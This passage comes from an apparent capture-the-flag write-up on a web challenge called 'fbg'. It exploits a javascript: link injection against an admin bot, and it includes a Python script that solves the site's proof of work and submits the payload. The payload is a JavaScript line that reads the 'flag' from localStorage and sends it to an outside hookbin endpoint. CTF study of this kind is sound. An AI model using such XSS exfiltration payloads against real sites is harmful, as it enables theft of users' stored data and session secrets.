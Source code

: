 ```
https://fbg.rars.win/button?title=...&link=javascript:alert(1)
```



![](./alert.png)



Great, this is a proof of concept! But now for exfiltration, if we just alert the admin bot, that is absolutely useless. We need a publicly accessible endpoint. And this is where [hookbin](https://hookbin.com/) comes in. Simply click on `CREATE NEW ENDPOINT` and then use the given URL.

### Finding a working payload

This is where it really comes in handy to work with a local instance of fbg. One payload we could use is:

```javascript
new Image().src="<your hookbin endpoint>?c="+window.localStorage.getItem('flag')
```

Which we can input into the provided script:

```python
import requests

import hashlib
import uuid
import binascii
import os
import sys

def generate():
    return uuid.uuid4().hex[:4], uuid.uuid4().hex[:4]

def verify(prefix, suffix, answer, difficulty=6):
    hash = hashlib.sha256(prefix.encode() + answer.encode() + suffix.encode()).hexdigest()
    return hash.endswith("0"*difficulty)

def solve(prefix, suffix, difficulty):
    while True:
        test = binascii.hexlify(os.urandom(4)).decode()
        if verify(prefix, suffix, test, difficulty):
            return test


s = requests.Session()
host = "https://fbg.rars.win/"

data = s.get(host + "pow").json()
print("Solving POW")
solution = solve(data['pref'], data['suff'], 5)
print(f"Solved: {solution}")
s.post(host + "pow", json={"answer": solution})

name = "..." # change this
link = """javascript:new Image().src="<your hookbin endpoint>?c="+window.localStorage.getItem('flag')""" # change this
```